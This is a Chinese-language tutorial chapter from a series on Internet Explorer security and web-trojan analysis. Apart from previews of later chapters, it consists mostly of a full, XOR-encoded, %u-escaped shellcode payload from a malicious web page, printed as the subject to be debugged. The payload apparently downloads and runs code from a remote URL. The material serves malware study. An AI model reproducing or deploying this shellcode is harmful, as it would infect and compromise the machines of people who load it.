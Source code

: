 # IE安全系列：脚本先锋（IV）—网马中的Shellcode

脚本先锋系列第四章，也是最后一章。将介绍对Shellcode的调试，以及SWF、PDF漏洞的利用文件的简单处理过程。

下一部分预告：

**_IE安全系列：中流砥柱（I） — JScript 5 解释器处理基本类型、函数等的简单介绍_**

IE中使用的Javascript解析器经历了多年的磨练，终于在版本5处分成了两个大版本，5之后的9，二者的关联和对一些内容的处理方式的不同之处，这两篇中，第一篇将对Jscript 5.8引擎中的字处理、函数调用等做简单的介绍。

**_IE安全系列：中流砥柱（II） — JScript 9（Charka）编译后字节码的简单介绍_**

多年磨练之后，Jscript 9的性能得到了很大的提升，9和5处理起一些基本类型数据的区别会在这篇简要叙述，这篇会有和（I）类似的介绍，只不过是针对Charka的脚本流程的。 （这个成语，我想大概也能这么用吧……）

VI.1 调试Shellcode
=====

上一篇（V.2）中，我们留下了一个全篇使用XOR 0xE2加密的Shellcode，这篇中，我们将使用调试工具解密它。

escape 之后的SHELLCODE如下：

```
%u0C0C%u6090%u1CEB%u4B5B%uC933%uB966%u03F8%u3B81%u0BFF%uE160%u850F%u0254%u0000%u3480%uE20B%uFAE2%u05EB%uDFE8%uFFFF%u0BFF%uE160%uE2E2%u86BD%uD243%uE2E2%u69E2%uEEA2%u9269%u4FFE%u8A69%u69EA%u8815%uBBED%uC00A%uE2E1%u72E2%u1A00%uD18A%uE2D0%u8AE2%u91B7%u9087%u69B6%uEEA4%u720A%uE2E0%u69E2%u880A%uBBE3%uE00A%uE2E1%u00E2%u8A1B%u8C8D%uE2E2%u978A%u8E90%uB68F%uF41D%u2267%uF197%u8D8A%uE28C%u8AE2%u9097%u8F8E%u69B6%uEEA4%u820A%uE2E0%u69E2%u880A%uBBE3%u300A%uE2E0%u00E2%u8A1B%uD18E%uE2D0%u918A%u878A%uB68E%uA469%u0AEE%uE0A3%uE2E2%u0A69%uE388%u0ABB%uE051%uE2E2%u1B00%u0E63%uE3E2%uE2E2%u3E69%u2163%uE262%uE2E2%uE288%uF888%u88B1%u1DE2%uA6B4%u22D1%u62A2%uE1DE%u97E2%u6B1B%u7264%uE2E2%u25E2%uE1E6%u83BE%u87CC%uA625%uE6E1%u879A%uE2E2%u2BD1%uB3B3%uB5B1%uD1B3%u6922%uA2A4%u0C0A%uE2E3%u61E2%uE21A%u67ED%uE37E%uE2E2%uE288%uE288%uE188%uE288%uE088%uE28A%uE2E2%uB122%uA469%u0AC6%uE32F%uE2E2%u1A61%uED1D%u9966%uE2E3%u6BE2%u82A4%uE288%u1DB2%uCAB4%uA46B%u6986%u7264%uE2E2%u25E2%uE1E6%u80BE%u87CC%uA625%uE6E1%u879A%uE2E2%uE288%uE288%uE088%uE288%uE288%uE28A%uE2E2%uB1A2%uA469%u0AC6%uE369%uE2E2%u1A61%uED1D%uDB66%uE2E3%u6BE2%u6664%uE2E2%u6BE2%u6E7C%uE2E2%u69E2%u82A4%uE288%uE288%uE288%uA469%uB282%uB41D%u25DA%u92A4%uE2E2%uE2E2%uA425%uE296%uE2E2%u63E2%uE225%uE2E0%uD1E2%u6939%u86BC%uE288%uA46F%uB292%uE28A%uE2E6%uB5E2%u941D%u1D82%uE6B4%u2BD1%uE25B%uE2E6%u62E2%uED9E%u771D%uEE96%u9E62%u1DED%u96E2%u62E7%uED96%u771D%u0900%u2169%uE2CF%uE2E6%u61E2%uE21A%uE19D%uBC6B%u8892%u6FE2%u96A4%u1DB2%u9294%u1DB5%u6654%uE2E2%u1DE2%uD2B4%u0963%uE6E2%uE2E2%u1961%u9DE2%u1D47%u8294%uB41D%u1DD6%u6654%uE2E2%u1DE2%uD6B4%u6469%uE272%uE2E2%u7C69%uE26E%uE2E2%uE625%uBEE1%uCC83%uB187%uB41D%u69CE%u6E5C%uE2E2%u69E2%u7264%uE2E2%u25E2%uE5E6%u80BE%u87CC%u0E63%uE3E2%uE2E2%u3E69%uE28A%uE2E3%uB1E2%uE28A%uE2E3%uB5E2%uE288%uE288%uB41D%u69FE%uD119%uD122%u6339%uE20E%uE2E0%u69E2%u612E%uB61A%uEA9F%uFE6B%u61E3%uE622%u1109%u2E69%u3B69%u2161%uD1F2%uB222%uB1B3%uB2B2%uB2B2%uB2B2%uB2B5%u69B2%uEAA4%u650A%uE2E2%u63E2%uFA26%uE2E6%u83E2%uA425%uE1F6%uE2E2%uD1E2%u692B%uC6DE%u0D61%u6194%uEA26%u2BD1%u051D%uE288%uB41D%u86F6%uD243%uE2E2%u69E2%uEEA2%u9269%u4FFE%u8A69%u69EA%u6B15%u86B4%uE688%u0ABB%uE241%uE2E2%u0072%u8A1A%uD0D1%uE2E2%uB78A%u8791%uB690%uE469%uF00A%uE2E2%u69E2%u880A%uBBE7%u660A%uE2E2%u00E2%uD11B%uB51D%uB41D%u62E6%u0ADA%uDA62%u970B%u63F3%uE79A%u7272%u7272%uEA96%u1D69%u69B7%u6F0E%uE7A2%u021D%uDA0A%uE2E2%u21E2%uDA62%u620A%u0BDA%uF397%u9A63%u72E7%u7272%u9672%u8A05%uE8EA%uE2E2%uA26F%u1DE7%u0A02%uE2F5%uE2E2%u0A21%uE2F3%uE2E2%uF35A%uE6E3%u2062%uE2EE%uE009%u21BA%u1B0A%u1D1D%uB91D%uE524%u6B5A%uE3BD%u2584%uE7A5%u021D%uB121%u3E69%u88B1%u8AA2%uF2E2%uE2E2%u69B5%uC2A4%u640A%u1D1D%uBA1D%uB321%u69B4%uDE97%u9669%u9ACC%u17E1%u69B4%uC294%u17E1%u2BD1%uA3AB%uE14F%uD127%uED39%uF25C%u34D8%uEA96%u2923%uE1E5%uA238%u1309%uFDD9%u0597%u69BC%uC6BC%u3FE1%u6984%uA9EE%uBC69%uE1FE%u693F%u69E6%u27E1%uBC49%u21BB%u9B0A%u1D1E%u501D%u0010%u5016%uEDD4%u12F1%u99AA%uD0DF%u7396%u67EE%u4D3D%u8159%u336B%uB3AD%u58A2%uE59D%uC070%uFC92%u8646%u710D%u06D0%u6C76%uE8F1%u9B4E%u04DB%u267A%uFD6F%uB596%uEF84%uA11D%u4E5C%u7A39%uF2E8%u621A%u4D34%u1978%uF7B1%u8A84%u9696%uD892%uCDCD%u8083%uCC8C%u8C86%uD291%uD7D5%uCCD7%u878C%uCD96%uCD86%u8686%uCC86%u9A87%uE287%uE2E2

```
